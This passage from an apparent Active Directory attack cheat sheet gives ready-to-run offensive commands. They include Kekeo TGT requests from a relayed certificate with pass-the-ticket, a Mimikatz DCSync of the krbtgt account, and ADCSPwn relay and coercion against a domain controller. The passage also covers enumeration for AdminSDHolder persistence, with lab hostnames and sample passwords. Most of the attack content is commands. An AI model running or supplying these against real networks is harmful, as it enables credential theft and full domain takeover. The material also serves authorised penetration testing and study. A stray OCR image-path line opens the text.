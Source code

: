     # Kekeo
    kekeo> base64 /input:on
    kekeo> tgt::ask /pfx:<BASE64-CERT-FROM-NTLMRELAY> /user:dc$ /domain:lab.local /ptt

    # Mimikatz
    mimikatz> lsadump::dcsync /user:krbtgt
    ```
* Version 3: ADCSPwn
    ```powershell
    https://github.com/bats3c/ADCSPwn
    adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]
    adcspwn.exe --adcs cs.pwnlab.local
    adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
    adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --output C:\Temp\cert_b64.txt
    adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --username pwnlab.local\mranderson --password The0nly0ne! --dc dc.pwnlab.local

    # ADCSPwn arguments
    adcs            -       This is the address of the AD CS server which authentication will be relayed to.
    secure          -       Use HTTPS with the certificate service.
    port            -       The port ADCSPwn will listen on.
    remote          -       Remote machine to trigger authentication from.
    username        -       Username for non-domain context.
    password        -       Password for non-domain context.
    dc              -       Domain controller to query for Certificate Templates (LDAP).
    unc             -       Set custom UNC callback path for EfsRpcOpenFileRaw (Petitpotam) .
    output          -       Output path to store base64 generated crt.
    ```

### Dangerous Built-in Groups Usage

If you do not want modified ACLs to be overwritten every hour, you should change ACL template on the object `CN=AdminSDHolder,CN=System` or set `"dminCount` attribute to `0` for the required object.

>  The AdminCount attribute is set to `1` automatically when a user is assigned to any privileged group, but it is never automatically unset when the user is removed from these group(s).

Find users with `AdminCount=1`.

```powershell
crackmapexec ldap 10.10.10.10 -u username -p password --admin-count
# or
python ldapdomaindump.py -u example.com\john -p pass123 -d ';' 10.10.10.10
jq -r '.[].attributes | select(.adminCount == [1]) | .sAMAccountName[]' domain_users.json
# or
